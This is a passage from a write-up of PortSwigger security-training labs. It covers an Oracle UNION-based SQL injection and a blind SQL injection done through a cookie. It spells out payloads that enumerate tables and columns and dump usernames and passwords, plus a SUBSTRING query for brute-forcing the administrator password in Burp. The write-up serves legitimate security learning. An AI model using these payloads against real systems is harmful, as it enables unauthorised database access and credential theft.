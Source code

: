 In this lab, we will use the same idea as the previous one, only now the database is oracle, so first read the [Documentation](https://docs.oracle.com/cd/E19078-01/mysql/mysql-refman-5.0/information-schema.html#tables-table) about the information schema, first we must list the tables with the payload: `'UNION SELECT NULL, table_name FROM all_tables--`

After identifying the user table, which in my case is `USERS_GACPLX`, we must identify the names of the columns, for that we use the following payload:`'UNION SELECT NULL, column_name FROM USER_TAB_COLUMNS WHERE table_name='USERS_GACPLX'--` 

With this we will identify the user and password columns, in my case they are `USERNAME_PIOHJJ`, `PASSWORD_ZELMBN` , once we know that we only make the query of the credentials knowing the name of the table, with the following payload final: `'UNION SELECT USERNAME_PIOHJJ, PASSWORD_ZELMBN FROM USERS_GACPLX--`

And the final query will look something like this:

```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT USERNAME_PIOHJJ, PASSWORD_ZELMBN FROM USERS_GACPLX--
```
## Lab 11 - Blind SQL injection with conditional responses

In this lab we have to use the cookie to make sql injection, we intercept the request with burp and we use the substring command to compare the characters of the password of the users table of the user with administrator name, this command receives 3 values, the variable, the start order and the number of characters to extract and that is equal to any letter, if the query is true then we will get the welcome back message, otherwise not, then we can make a brute force attack in burpsuite.

The query will look something like this:

```sql
SELECT tracking-id from tracking-table where TrackingId='g1cLmHM7hZM7IhBH' and (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='c'--
```
The response have the text welcome back
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli11.jpg)
